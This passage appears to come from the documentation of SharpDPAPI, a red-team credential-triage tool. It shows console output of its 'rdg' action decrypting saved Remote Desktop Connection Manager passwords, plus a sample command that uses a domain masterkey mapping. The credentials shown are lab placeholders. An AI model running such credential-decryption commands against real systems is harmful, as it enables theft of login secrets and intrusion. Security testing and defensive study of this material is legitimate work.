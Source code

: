 
    [*] Action: RDG Triage

    [*] Using CryptUnprotectData() to decrypt RDG passwords

    [*] Triaging RDCMan Settings Files for current user

        RDCManFile    : C:\Users\harmj0y\AppData\Local\Microsoft\Remote Desktop Connection Manager\RDCMan.settings
        Accessed      : 5/9/2019 11:52:58 AM
        Modified      : 5/9/2019 11:52:58 AM
        Recent Server : test\primary.testlab.local

            Cred Profiles

              Profile Name : testprofile
                UserName   : testlab.local\dfm
                Password   : Password123!

            Default Logon Credentials

              Profile Name : Custom
                UserName   : TESTLAB\harmj0y
                Password   : Password123!

          C:\Users\harmj0y\Documents\test.rdg

            Servers

              Name         : secondary.testlab.local

              Name         : primary.testlab.local
              Profile Name : Custom
                UserName   : TESTLAB\dfm.a
                Password   : Password123!


Using domain {GUID}:SHA1 masterkey mappings:

    C:\Temp>SharpDPAPI.exe rdg {8abc35b1-b718-4a86-9781-7fd7f37101dd}:ae349cdd3a230f5e04f70fd02be69e2e71f1b017

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.3.0


    [*] Action: RDG Triage

    [*] Using CryptUnprotectData() to decrypt RDG passwords

    [*] Triaging RDCMan Settings Files for current user

        RDCManFile    : C:\Users\harmj0y\AppData\Local\Microsoft\Remote Desktop Connection Manager\RDCMan.settings
        Accessed      : 5/9/2019 11:52:58 AM
        Modified      : 5/9/2019 11:52:58 AM
        Recent Server : test\primary.testlab.local
